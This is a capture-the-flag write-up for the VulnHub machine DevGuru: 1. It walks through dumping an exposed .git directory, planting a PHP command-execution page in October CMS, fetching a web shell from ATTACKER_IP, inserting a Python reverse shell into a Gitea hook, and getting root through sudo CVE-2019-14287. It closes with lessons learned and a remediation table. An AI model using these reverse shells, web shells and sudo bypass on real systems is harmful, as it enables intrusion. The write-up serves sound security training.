



# DevGuru: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.32 (host-only) |
| **Hostname** | devguru.local |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Flags** | user.txt + root.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/devguru-1,620/) |

## Attack Summary

nmap → exposed `.git/` + Gitea:8585 → git-dumper recovers DB creds → October CMS PHP console → reverse shell → Gitea pre-receive hook (Python reverse shell) → sudo sqlite3 CVE (EDB-47502) → root

## Methodology

1. Network discovery and port scan
2. Enumerate exposed `.git/` with GitDumper
3. Extract credentials from recovered `config/database.php`
4. Access October CMS and achieve RCE via PHP code console
5. Pivot through Gitea git hooks for user shell
6. Escalate via `sudo -u#-1 sqlite3` (CVE-2019-14287 / EDB-47502)

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
echo "192.168.1.32 devguru.local" >> /etc/hosts
nmap -p- -A 192.168.1.32
```

Finds: port 80 (Apache, exposes `/.git/`), port 8585 (Gitea).


---

## Step 2: Git Repository Dump

The web root has a `.git/` directory exposed. Use GitTools to dump and extract:

```bash
git clone https://github.com/internetwache/GitTools
cd GitTools/Dumper
./gitdumper.sh http://devguru.local/.git/ /tmp/website
cd ../Extractor
./extractor.sh /tmp/website /tmp/extracted
```

Search for database credentials in the recovered commit files:

```bash
grep -r "password" /tmp/extracted/
# Found in config/database.php:
# DB: octoberdb | user: october | pass: SQ66EBYx4GT3byXH
```


---

## Step 3: October CMS Access and RCE

Navigate to `http://devguru.local/backend`. Log in as `frank` after resetting the bcrypt hash in the database:

```bash
mysql -u october -p'SQ66EBYx4GT3byXH' octoberdb
UPDATE backend_users SET password='$2y$10$...' WHERE username='frank';
# Use hash of 'rajchandel'
```

In the CMS, go to **CMS > Pages > Add page**. Add a PHP `onStart()` function:

```php
function onStart() {
    $this->page["output"] = shell_exec($_GET['cmd']);
}
```

Add `{{ page.output }}` to the page markup. Browse to `?cmd=id` to verify RCE, then get a shell:

```bash
# On attacker
python3 -m http.server 8000
nc -lvnp 4444

# Via CMS (?cmd=)
wget http://ATTACKER_IP:8000/shell.php -O /var/www/html/shell.php
# Browse to devguru.local/shell.php
```



---

## Step 4: Gitea Pre-Receive Hook

Find Gitea backup credentials:

```bash
cat /var/backup/app.ini.bak
# [database] user = gitea  PASSWD = <password>
```

Connect to the Gitea MySQL and reset Frank's password, then log in at port 8585. Go to the `frank/devguru-website` repo → **Settings → Git Hooks → pre-receive**. Insert a reverse shell:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Trigger by committing any change to the repo (e.g., edit README.md). Catch shell on `nc -lvnp 1234`. Read `user.txt`.



---

## Step 5: Privilege Escalation via sudo sqlite3

```bash
sudo -l
# User frank may run: (ALL) NOPASSWD: /usr/bin/sqlite3
# Vulnerable: sudoers plugin with sudo < 1.8.28 (CVE-2019-14287 / EDB-47502)

sudo -u#-1 sqlite3 /dev/null '.shell /bin/bash'
# root shell obtained
cat /root/root.txt
```



---

## Lessons Learned

1. **Exposed `.git/` directories** leak full source code including config files with DB credentials — always block access to `.git/` in web server config
2. **CMS code execution panels** (October CMS, etc.) are effectively RCE endpoints if login is compromised — restrict admin access and disable dev tools in production
3. **Gitea git hooks** run as the Gitea process user — never allow untrusted users to modify hooks on a server
4. **CVE-2019-14287**: `sudo -u#-1` bypasses UID restrictions in sudo < 1.8.28; upgrade sudo and audit sudoers entries

## Remediation

| Vulnerability | Fix |
|---|---|
| Exposed `.git/` | Add `<Directory .git> Deny from all </Directory>` in Apache or `location /.git { deny all; }` in Nginx |
| CMS DB creds in config | Use environment variables or a secrets manager; rotate credentials |
| Gitea hook modification | Restrict who can push to repos with hooks; run Gitea as a limited user |
| sudo CVE-2019-14287 | Upgrade sudo ≥ 1.8.28; use `!root` syntax in sudoers if needed |
